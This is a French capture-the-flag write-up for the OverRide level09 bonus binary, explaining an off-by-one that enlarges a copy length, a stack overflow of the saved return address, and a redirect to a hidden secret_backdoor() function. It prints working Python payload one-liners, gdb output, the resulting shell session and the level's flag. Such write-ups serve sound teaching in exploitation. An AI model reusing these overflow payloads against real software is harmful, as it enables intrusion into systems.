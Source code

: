 # Level 09 (bonus)

### Protections

![](Ressources/protections.png)

*Note: Bien que **PIE** soit active, l'ASLR n'est pas actif sur le systeme. PIE n'a alors aucun effet.*

### Analyse

![](Ressources/exec.png)

*Ce programme a ete un peu plus difficile a retranscrire en C, apres pas mal d'analyse sur l'Assembleur, on a reconstituer une structure (voir source.c), les decompilateurs n'ont pas beaucoup aides sur ce coup.*

La fonction `main()` fait un appel direct a la fonction `handle_msg()`.

`handle_msg` creer notre structure, initialise le tableau `user_data->username` a 0 et l'int32_t `user_data->msg_length` a 140. La fonction appelle ensuite `set_username(&user_data)` et `set_msg(&user_data)` avant de `puts(">: Msg sent!")`.

`set_username()` prepare un buffer de 128 octets afin de `fgets(buffer, 128, stdin)`. Il copie ensuite 40 octets dans `user_data->username`. **En fait non! 41 octets! Buffer overflow possible ici.** En assembleur, l'instruction est `jg` (Jump if greater) ou plus simplement: `index <= 40` en C. La fonction se termine pas un `printf(">: Welcome, %s", user_data->username)`.

`set_msg()` prepare un buffer de 1024 octets afin de `fgets(buffer, 1024, stdin)`. Le fait un `strncpy()` de longueur `user_data->msg_length` (140) dans `user_data->message`.

Une mysterieuse fonction `secret_backdoor()` est presente a l'adresse **0x000055555555488c**. Celle-ci fait un appel `system()` avec un `fgets()` donc cela peut nous permettre de faire un `cat /home/users/end/.pass`

*NX est actif, cela annule la supposition d'un Shellcode*

### Exploitation

Nos etudes sur l'assembleur et le debogage nous ont permis de savoir que `user_data->username` est a 140 octets du pointeur initial et que `user_data->msg_length` est a 180 octets.

Ceci etant dit, cela signifie que le `strncpy()` de `set_username()` nous permet d'ecraser 1 octets de `user_data->msg_length`.

On sait que:

* Un int32_t fait 4 octets.
* La memoire est disposee en Little-Endian (de maniere inversee)

De base `user_data->msg_length` fait 140, on peut se le representer de cette maniere en hexadimal: `8c 00 00 00`.

**La valeur maximale qu'on peut stocker sur 1 octet est 255**. **On peut essayer de l'ecraser et de mettre un message de 255 octets** pour voir si cela change quelques chose. *Dans le meilleur des cas, on ecrase le saved-eip.*

```
level09@OverRide:~$ (python -c 'print "A"*40 + "\xff" + "\n" + "A"*255') | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
Segmentation fault (core dumped)
```

Eureka! Avec le debogage **GDB** ou un **Overflow Pattern Generator**, l'ecrasement du saved-eip se confirme a un offset de 200 octets.

Il nous suffit donc de recuperer l'adresse de `secret_backdoor()` et le tour est joue!

```
(gdb) b *main+16
(gdb) run
(gdb) disas secret_backdoor
Dump of assembler code for function secret_backdoor:
   0x000055555555488c <+0>:     push   %rbp
   .................. .....     ....   ....

```

`(python -c 'print "A"*40 + "\xff" + "\n" + "\x90"*200 + "\x8c\x48\x55\x55\x55\x55\x00\x00"'; cat)`

```
level09@OverRide:~$ (python -c 'print "A"*40 + "\xff" + "\n" + "\x90"*200 + "\x8c\x48\x55\x55\x55\x55\x00\x00"'; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end

```

Flag: **j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE**
